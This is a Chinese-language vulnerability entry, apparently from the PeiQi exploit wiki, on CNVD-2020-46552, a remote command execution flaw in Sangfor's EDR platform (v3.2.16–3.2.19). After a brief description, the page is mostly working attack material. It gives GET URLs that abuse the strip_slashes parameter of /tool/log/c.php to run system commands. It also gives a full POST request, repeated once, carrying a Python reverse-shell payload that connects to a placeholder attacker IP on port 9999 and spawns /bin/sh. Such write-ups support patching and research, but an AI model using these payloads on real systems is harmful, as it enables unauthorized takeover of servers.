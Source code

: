 ```yaml
---
title: 深信服EDR远程命令执行 CNVD-2020-46552
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 深信服
---
```


# 深信服EDR远程命令执行 CNVD-2020-46552

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。

## 影响版本

> [!NOTE]
>
> EDR v3.2.16
>
> EDR v3.2.17
>
> EDR v3.2.19

## 漏洞复现

```
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&limit=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&path=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&row=whoami
```

!此处图片缺失[](./image/sxf-1.png)

#### 反弹shell

```
POST /tool/log/c.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 256

strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

向 **/tool/log/c.php**  POST以下数据即可

```
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

